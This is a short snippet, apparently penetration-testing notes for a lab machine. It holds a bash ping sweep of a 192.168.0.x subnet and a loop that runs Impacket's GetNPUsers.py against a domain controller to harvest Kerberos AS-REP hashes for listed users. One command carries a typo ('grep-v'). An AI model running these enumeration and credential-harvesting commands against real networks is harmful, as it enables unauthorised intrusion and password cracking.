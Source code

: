 #ping all the 192.168.0.x subnet  
for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; 

#loops over a file "users" executes.py 
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done 

